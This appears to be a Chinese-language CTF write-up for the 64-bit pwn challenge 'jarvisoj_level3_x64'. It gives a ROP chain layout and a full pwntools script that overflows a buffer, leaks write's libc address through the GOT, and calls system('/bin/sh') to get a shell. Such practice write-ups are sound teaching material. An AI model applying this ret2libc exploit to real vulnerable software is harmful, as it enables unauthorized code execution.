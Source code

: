 ```yaml
---
title: 'jarvisoj_level3_x64'
date: 2023-12-31 13:00:00 +0800
categories: [ctf,pwn]
tags: [64bit,leak_libc]
---
```

![image-20231231181919311](../assets/img/old_imgs/image-20231231181919311.png)

- `64`位`libc`泄露

1. 漏洞函数中存在溢出
2. 使用溢出泄露`libc`
3. 构造`payload`获得`shell`

| rbp  |           |         |                                |                 |
| ---- | --------- | ------- | ------------------------------ | --------------- |
|      | padding   |         |                                | 0x80            |
|      |           |         |                                | 0x8             |
|      | pop_rdi   | ret     | 0x00000000004006b3             |                 |
|      | 0x1       | pop     |                                |                 |
|      | pop_rsi   | ret     | 0x00000000004006b1             |                 |
|      | write_got | pop_rsi | elf.got['write']               | 没找到更好的rop |
|      | 0x0       | pop_r15 |                                |                 |
|      | write_plt | ret     | elf.plt['write']               |                 |
|      |           | ret     | elf.sym['vulnerable_function'] |                 |

> 泄露`libc`payload1构造

```python
from pwn import *
#context.log_level = 'debug'
elf = ELF('level3_x64')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('level3_x64')
#io = gdb.debug('./level3_x64','break vulnerable_function')
padding = 0x80
payload1 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(0x1)+p64(0x00000000004006b1)+p64(elf.got['write'])+p64(0x0)+p64(elf.plt['write'])+p64(elf.sym['vulnerable_function'])
io.sendlineafter(b'Input:\n',payload1)
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr->',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
sys_addr = Liboffset + Lib.sym['system']
payload2 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```



